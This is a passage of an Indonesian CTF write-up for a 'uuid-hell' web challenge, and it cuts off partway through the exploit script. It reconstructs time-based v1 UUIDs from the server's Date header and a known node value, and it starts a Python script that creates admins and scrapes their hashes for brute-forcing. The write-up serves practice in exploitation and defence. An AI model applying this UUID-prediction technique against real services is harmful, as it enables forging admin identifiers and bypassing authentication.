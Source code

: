 output:

```
...snip...
< HTTP/2 200 
< date: Mon, 13 Feb 2023 00:45:31 GMT
< content-type: text/html; charset=utf-8
< x-powered-by: Express
< set-cookie: id=b7b9c6f0-ab37-11ed-aa64-67696e6b6f69; Path=/
< cf-cache-status: DYNAMIC
...snip...
```

Kurang lebih saya menggunakan kode seperti dibawah ini untuk mendapatkan UUID dari server, tetapi hasilnya sedikit berbeda, kemungkinan karena adanya delay dari server.

```javascript
const uuid = require('uuid');

function randomUUID() {
    return uuid.v1({
        'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69],
        'clockseq': 0b10101001100100,
        "msecs": Date.parse("Mon, 13 Feb 2023 00:45:31 GMT") ,
    });
}
console.log(randomUUID())
```

Ada juga yang menarik disini yaitu kita bisa membuat admin dan hashnya nanti akan terlihat di main page server.

```javascript
app.post('/createadmin', (req, res) => {
    const adminid = randomUUID();
    adminuuids.push(adminid);
    res.send("Admin account created.")
});
```

#### Exploit

Kita sudah tahu bahwa kita bisa membuat admin baru dan mendapatkan hashnya di web page challenge. Dari sini kita bisa membruteforce 4 byte pertama dari UUID, tetapi karna pasti akan lama untuk membruteforcenya kita perlu menggunakan `Date` dari server dan setelah itu kita bisa membruteforcenya agar sama dengan hash admin yang baru kita buat di `/createadmin`. Berikut script yang saya gunakan untuk membruteforce dan mendapatkan `Date` dari server:

```python
import hashlib
import requests
from subprocess import check_output
import re

URL = "https://uuid-hell.lac.tf"


def get_info(url=URL):
    class Info:
        date: str
        uuid: str
        hash: str

    res = requests.post(url+"/createadmin")
    info = Info
    info.date = res.headers.get("Date")
    res = requests.get(url)
    info.uuid = re.findall(r"(?<=as ).*?(?=<br>)", res.text)[-1]
```